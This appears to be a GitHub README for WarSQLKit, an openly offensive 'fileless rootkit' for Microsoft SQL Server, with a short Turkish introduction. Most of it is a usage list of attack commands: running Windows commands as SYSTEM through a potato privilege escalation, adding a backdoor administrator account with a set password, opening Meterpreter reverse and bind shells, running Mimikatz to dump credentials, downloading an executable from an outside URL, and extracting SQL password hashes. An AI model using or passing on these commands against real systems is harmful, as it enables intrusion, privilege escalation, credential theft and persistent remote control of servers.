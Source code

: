 # MSSQL Fileless Rootkit - WarSQLKit

Bu araç “sysadmin” haklarına sahip bir hesabının yakalandığı ve “xp_cmdshell”, “sp_OACreate”, “sp_OAMethod” vb. prosedürlerin hiçbirinin çalışmadığı bir senaryo düşünülerek kaleme geliştirilmiştir.

http://eyupcelik.com.tr/guvenlik/493-mssql-fileless-rootkit-warsqlkit

WarSQLKit Command Example
```sql
EXEC sp_cmdExec 'whoami'; => Any Windows command
EXEC sp_cmdExec 'whoami /RunSystemPriv'; => Any Windows command with NT AUTHORITY\SYSTEM rights
EXEC sp_cmdExec '"net user eyup P@ssw0rd1 /add" /RunSystemPriv'; => Adding users with RottenPotato (Kumpir)
EXEC sp_cmdExec '"net localgroup administrators eyup /add" /RunSystemPriv'; => Adding user to localgroup with RottenPotato (Kumpir)
EXEC sp_cmdExec 'powershell Get-ChildItem /RunSystemPS'; => (Powershell) with RottenPotato (Kumpir)
EXEC sp_cmdExec 'sp_meterpreter_reverse_tcp LHOST LPORT GetSystem'; => x86 Meterpreter Reverse Connection with  NT AUTHORITY\SYSTEM
EXEC sp_cmdExec 'sp_x64_meterpreter_reverse_tcp LHOST LPORT GetSystem'; => x64 Meterpreter Reverse Connection with  NT AUTHORITY\SYSTEM
EXEC sp_cmdExec 'sp_meterpreter_reverse_rc4 LHOST LPORT GetSystem'; => x86 Meterpreter Reverse Connection RC4 with  NT AUTHORITY\SYSTEM, RC4PASSWORD=warsql
EXEC sp_cmdExec 'sp_meterpreter_bind_tcp LPORT GetSystem'; => x86 Meterpreter Bind Connection with  NT AUTHORITY\SYSTEM
EXEC sp_cmdExec 'sp_Mimikatz'; 
select * from WarSQLKitTemp => Get Mimikatz Log. Thnks Benjamin Delpy :)
EXEC sp_cmdExec 'sp_downloadFile http://eyupcelik.com.tr/file.exe C:\ProgramData\file.exe 300';  => Download File
EXEC sp_cmdExec 'sp_getSqlHash';  => Get MSSQL Hash
EXEC sp_cmdExec 'sp_getProduct';  => Get Windows Product
EXEC sp_cmdExec 'sp_getDatabases';  => Get Available Database
```
